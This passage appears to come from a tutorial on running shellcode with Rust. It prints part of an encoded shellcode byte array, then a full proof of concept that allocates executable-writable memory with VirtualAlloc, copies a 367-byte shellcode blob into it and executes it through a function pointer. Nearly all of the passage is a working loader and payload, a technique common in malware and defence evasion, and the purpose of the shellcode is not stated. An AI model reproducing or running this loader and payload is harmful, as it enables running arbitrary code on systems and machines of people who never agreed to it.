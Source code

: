 ```
0xaa,0xa2,0xdf,0xca,0x59,0xea,0x0c,0x2e,0xb8,0xa0,0xc8,0xbb,
0x04,0xbc,0x68,0x37,0xa7,0xc5,0xba,0x88,0x36,0x92,0x0c,0x5b
];
```

### POC code

Now we can copy and paste the previously generated shellcode into our POC Rust code:

```
use windows::Win32::System::Memory::{VirtualAlloc, MEM_COMMIT, PAGE_EXECUTE_READWRITE};

fn main() {
    let shellcode: [u8; 367] = [
        0x48, 0x31, 0xc9, 0x48, 0x81, 0xe9, 0xd7, 0xff, 0xff, 0xff, 0x48, 0x8d, 0x05, 0xef, 0xff,
        0xff, 0xff, 0x48, 0xbb, 0xcb, 0xc5, 0xba, 0x88, 0x36, 0x92, 0x0c, 0x5b, 0x48, 0x31, 0x58,
        0x27, 0x48, 0x2d, 0xf8, 0xff, 0xff, 0xff, 0xe2, 0xf4, 0x37, 0x8d, 0x3b, 0x6c, 0xc6, 0x6d,
        0xf3, 0xa4, 0x23, 0x15, 0xba, 0x88, 0x36, 0xd3, 0x5d, 0x1a, 0x9b, 0x97, 0xeb, 0xde, 0x7e,
        0xa3, 0xde, 0x3e, 0x83, 0x4e, 0xe8, 0xe8, 0x08, 0xda, 0x87, 0x09, 0xd3, 0xfb, 0xf2, 0x03,
        0x64, 0xb2, 0x32, 0x13, 0x40, 0xb7, 0xea, 0xb6, 0x7e, 0x9d, 0xbb, 0x11, 0x81, 0x88, 0x8b,
        0x41, 0x7e, 0xa3, 0xcc, 0xf7, 0xf7, 0xa4, 0xc6, 0x8a, 0x1a, 0xb2, 0x4d, 0x9a, 0x02, 0xc8,
        0xfb, 0x89, 0xf7, 0x70, 0xe1, 0x09, 0x8a, 0x94, 0x84, 0xc0, 0xbd, 0xc0, 0x2c, 0x65, 0x40,
        0x87, 0x86, 0xc0, 0x37, 0x42, 0x32, 0xd0, 0x4b, 0x4d, 0xba, 0x88, 0x36, 0xda, 0x89, 0x9b,
        0xbf, 0xaa, 0xf2, 0x89, 0xe6, 0xc2, 0x32, 0xd0, 0x83, 0xdd, 0x84, 0xcc, 0xbd, 0xd2, 0x2c,
        0x12, 0xca, 0x15, 0x59, 0xd4, 0x7e, 0x6d, 0xc5, 0x65, 0x8a, 0x4e, 0x8e, 0x00, 0x7e, 0x93,
        0xda, 0x16, 0xfa, 0x0c, 0xf2, 0xb9, 0xf6, 0x3e, 0x4d, 0x9a, 0x02, 0xc8, 0xfb, 0x89, 0xf7,
        0xaa, 0xec, 0x2e, 0x3a, 0xfb, 0xf6, 0x8b, 0x7a, 0xb6, 0x04, 0x1e, 0xf2, 0x14, 0xcf, 0x5e,
        0x6e, 0xac, 0x48, 0xd0, 0x8b, 0xe1, 0xf3, 0x89, 0xe6, 0xf4, 0x32, 0x1a, 0x40, 0xc9, 0xf2,
        0xb6, 0x72, 0x19, 0x4c, 0x47, 0x82, 0xc4, 0x6a, 0xb6, 0x77, 0x19, 0x08, 0xd3, 0x83, 0xc4,
        0x6a, 0xc9, 0x6e, 0xd3, 0x54, 0x05, 0x92, 0x9f, 0xfb, 0xd0, 0x77, 0xcb, 0x4d, 0x01, 0x83,
        0x46, 0x56, 0xa8, 0x77, 0xc0, 0xf3, 0xbb, 0x93, 0x84, 0xe3, 0xd2, 0x08, 0xda, 0x87, 0x49,
        0x22, 0x8c, 0x45, 0x77, 0xc9, 0xcf, 0x32, 0x13, 0x46, 0x48, 0x90, 0x89, 0x36, 0x92, 0x4d,
        0xe1, 0x87, 0xb2, 0x9c, 0x8f, 0xc9, 0x47, 0x45, 0x9c, 0x0a, 0xc5, 0xba, 0x88, 0x36, 0xac,
        0x44, 0xd6, 0x5e, 0xcb, 0xbb, 0x88, 0x36, 0xac, 0x40, 0xd6, 0x4e, 0xda, 0xbb, 0x88, 0x36,
        0xda, 0x3d, 0x92, 0x8a, 0x7f, 0xff, 0x0b, 0x60, 0x95, 0xf3, 0x8e, 0x83, 0xf4, 0x73, 0xc9,
        0x8c, 0x62, 0xb9, 0xf9, 0x9d, 0x3a, 0x6f, 0xc0, 0x53, 0xfe, 0x60, 0x34, 0xe7, 0xe5, 0xdc,
        0xfa, 0x59, 0xff, 0x2c, 0x16, 0x98, 0x83, 0x9b, 0x88, 0x7b, 0xf7, 0x7f, 0x28, 0xaa, 0xa2,
        0xdf, 0xca, 0x59, 0xea, 0x0c, 0x2e, 0xb8, 0xa0, 0xc8, 0xbb, 0x04, 0xbc, 0x68, 0x37, 0xa7,
        0xc5, 0xba, 0x88, 0x36, 0x92, 0x0c, 0x5b,
    ];

    println!("payload size: {}", std::mem::size_of_val(&shellcode));

    unsafe {
        let lpalloc = VirtualAlloc(
            None,
            std::mem::size_of_val(&shellcode),
            MEM_COMMIT,
            PAGE_EXECUTE_READWRITE,
        );

        if lpalloc.is_null() {
            panic!("VirtualAlloc failed!");
        }

        std::ptr::copy_nonoverlapping(
            shellcode.as_ptr(),
            lpalloc as *mut u8,
            std::mem::size_of_val(&shellcode),
        );

        let func: unsafe fn() = std::mem::transmute(lpalloc);
        func();
    }
```
